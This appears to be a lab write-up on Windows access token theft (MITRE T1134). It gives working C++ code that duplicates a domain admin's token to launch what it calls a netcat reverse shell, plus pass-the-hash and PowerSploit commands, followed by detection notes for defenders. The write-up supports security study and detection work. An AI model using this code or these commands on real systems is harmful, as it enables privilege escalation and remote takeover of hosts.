








# T1134: Primary Access Token Manipulation

## Context

One of the techniques of token manipulation is creating a new process with a token "stolen" from another process. This is when a token of an already existing access token present in one of the running processes on the victim host, is retrieved, duplicated and then used for creating a new process, making the new process assume the privileges of that stolen token.

A high level process of the token stealing that will be carried out in this lab is as follows:

| Step | Win32 API |
| :--- | :--- |
| Open a process with access token you want to steal | `OpenProcess` |
| Get a handle to the access token of that process | `OpenProcesToken` |
| Make a duplicate of the access token present in that process | `DuplicateTokenEx` |
| Create a new process with the newly aquired access token | `CreateProcessWithTokenW` |

## Weaponization

Below is the C++ code implementing the above process. Note the variable `PID_TO_IMPERSONATE` that has a value of `3060` This is a process ID that we want to impersonate/steal the token from, since it is running as a domain admin and makes it for a good target:


Note the line 16, which specifies the executable that should be launched with an impersonated token, which in our case effectively is a simple netcat reverse shell calling back to the attacking system:



This is the code if you want to compile and try it yourself:


```cpp
#include "stdafx.h"
#include <windows.h>
#include <iostream>

int main(int argc, char * argv[]) {
	char a;
	HANDLE processHandle;
	HANDLE tokenHandle = NULL;
	HANDLE duplicateTokenHandle = NULL;
	STARTUPINFO startupInfo;
	PROCESS_INFORMATION processInformation;
	DWORD PID_TO_IMPERSONATE = 3060;
	wchar_t cmdline[] = L"C:\\shell.cmd";
	ZeroMemory(&startupInfo, sizeof(STARTUPINFO));
	ZeroMemory(&processInformation, sizeof(PROCESS_INFORMATION));
	startupInfo.cb = sizeof(STARTUPINFO);	

	processHandle = OpenProcess(PROCESS_ALL_ACCESS, true, PID_TO_IMPERSONATE);
	OpenProcessToken(processHandle, TOKEN_ALL_ACCESS, &tokenHandle);
	DuplicateTokenEx(tokenHandle, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &duplicateTokenHandle);			
	CreateProcessWithTokenW(duplicateTokenHandle, LOGON_WITH_PROFILE, NULL, cmdline, 0, NULL, NULL, &startupInfo, &processInformation);
	
	std::cin >> a;
    return 0;
}
```


## Execution

Launching `Tokens.exe` from the powershell console spawns a reverse shell that the attacker catches. Note how the `powershell.exe` - the parent process of `Tokens.exe` and `Tokens.exe` itself are running under `PC-Mantvydas\mantvydas`, but the newly spawned shell is running under `OFFENSE\Administrator` - this is because of the successful token theft:



The logon for OFFESNE\administrator in the above test was of logon type 2 \(interactive logon, meaning I launched a new process on the victim system using a `runas /user:administrator@offense cmd` command\). 

Another quick test that I wanted to do was a theft of an access token that was present in the system due to a network logon \(i.e psexec, winexec, pth-winexe, etc\), so I spawned a cmd shell remotely from the attacking machine to the victim machine using:


```text
pth-winexe //10.0.0.2 -U offense/administrator%pass cmd
```


which created a new process on the victim system with a PID of 4780:



Enumerating all the access tokens on the victim system with PowerSploit:

```csharp
Invoke-TokenManipulation -ShowAll | ft -Wrap -Property domain,username,tokentype,logontype,processid
```

...gives the below. Note the available token \(highlighted\) - it is the cmd.exe from above screenshot and its logon type is as expected - 3 - a network logon:



This token again can be stolen the same way we did it earlier. Let's change the PID in `Tokens.cpp` of the process we want to impersonate to `4780`:



Running the compiled code invokes a new process with the newly stolen token:



note the cmd.exe has a PID 5188 - if we rerun the `Invoke-TokenManipulation`, we can see the new process is using the access token with logon type 3:


## Observations

Imagine you were investigating the host we stole the tokens from, because it exhibited some anomalous behaviour. In this particularly contrived example, since `Tokens.exe` was written to the disk on the victim system, you could have a quick look at its dissasembly and conclude it is attempting to manipulate access tokens - note that we can see the victim process PID and the CMDLINE arguments:



As suggested by the above, you should think about API monitoring if you want to detect these token manipulations on endpoints, but beware - this can be quite noisy. 

Windows event logs of IDs `4672` and `4674` may be helpful for you as a defender also - below shows a network logon of a `pth-winexe //10.0.0.2 -U offense/administrator%pass cmd` and then later, a netcat reverse shell originating from the same logon session:



## References







{% embed url="https://technet.microsoft.com/pt-pt/library/cc783557%28v=ws.10%29.aspx?f=255&MSPPError=-2147217396" %}













[https://www.blackhat.com/docs/eu-17/materials/eu-17-Atkinson-A-Process-Is-No-One-Hunting-For-Token-Manipulation.pdf](https://www.blackhat.com/docs/eu-17/materials/eu-17-Atkinson-A-Process-Is-No-One-Hunting-For-Token-Manipulation.pdf)

